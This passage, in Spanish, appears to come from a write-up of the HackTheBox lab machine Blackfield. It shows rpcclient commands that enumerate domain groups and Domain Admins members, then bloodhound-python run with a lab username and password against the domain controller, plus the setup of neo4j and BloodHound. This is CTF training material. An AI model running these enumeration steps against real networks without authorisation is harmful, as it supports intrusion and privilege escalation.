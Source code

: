 Ahora podemos ver la lista de los usuarios registrados a nivel de systema. Buscamos usuarios del grupo Admins via la busqueda de los diferentes grupos.

```bash
> rpcclient $> enumdomgroups
```

copiamos el rid del grupo `Domain Admins` 

```bash
> rpcclient $> querygroupmem 0x200
```

Aqui podemos ver el **rid** del usuario que hace parte del grupo admin.

```bash
> rpcclient $> queryuser 0x1f4
```

Vemos quel usuario es **Administrator**, pero lo hacemos para saber si hay otros usuarios administradores pero aqui no es el caso.

### Enumeracion del systema con bloodhound-python para ganar acceso a la maquina {-}

Con la utilidad `bloodhound-python`, podemos enumerar cosas si tener que estar connectado a la maquina victima.

1. instalamos bloodhound

    ```bash
    pip3 install bloodhound
    ```

1. lanzamos bloodhound-python

    ```bash
    bloodhound-python
    bloodhound-python -c ALL -u support -p '#00^BlackKnight' -ns 10.10.10.192 -dc dc01.blackfield.local -d blackfield.local 
    ```

    esto nos crea un reporte en formato json.

1. instalamos bloodhound y neo4j

    ```bash
    sudo apt install neo4j bloodhound
    ```

1. lanzamos neo4j service

    ```bash
    sudo neo4j console
    ```

1. lanzamos bloodhound

    ```bash
    bloodhound --no-sandbox &> /dev/null &
    disown
    ```
